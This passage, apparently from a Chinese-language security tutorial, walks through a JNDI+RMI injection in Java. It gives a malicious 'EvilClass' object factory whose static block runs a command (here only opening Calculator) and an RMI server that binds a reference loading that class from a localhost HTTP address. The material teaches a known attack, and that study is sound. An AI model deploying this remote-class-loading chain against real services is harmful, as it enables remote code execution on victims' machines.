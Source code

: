 ### JNDI+RMI注入

我们按照上图的 JNDI 注入流程图来进行就可以，先编写恶意类`EvilClass`，这里继承`ObjectFactory`类需要重写`getObjectInstance()`方法
```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

/**
 * Created by dotast on 2023/1/30 16:40
 */
public class EvilClass implements ObjectFactory {
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator.app");
            System.out.println("init");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    public EvilClass(){
        System.out.println("public");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

RMI 服务端`RMIServer_JNDI`类
```java
package com.rmi.server;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/30 15:10
 */
public class RMIServer_JNDI {
    public static void main(String[] args) throws Exception{
        //创建RMI注册表
        Registry registry = LocateRegistry.createRegistry(1099);
        String factorUrl = "http://127.0.0.1:6666/";
        //类名为EvilClass的对象，对象工厂的类名和位置以及对象的地址构造一个新引用。
        Reference reference = new Reference("EvilClass", "EvilClass", factorUrl);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("exp", referenceWrapper);
        System.out.println("RMIServer_JNDI start...");
    }
}
```
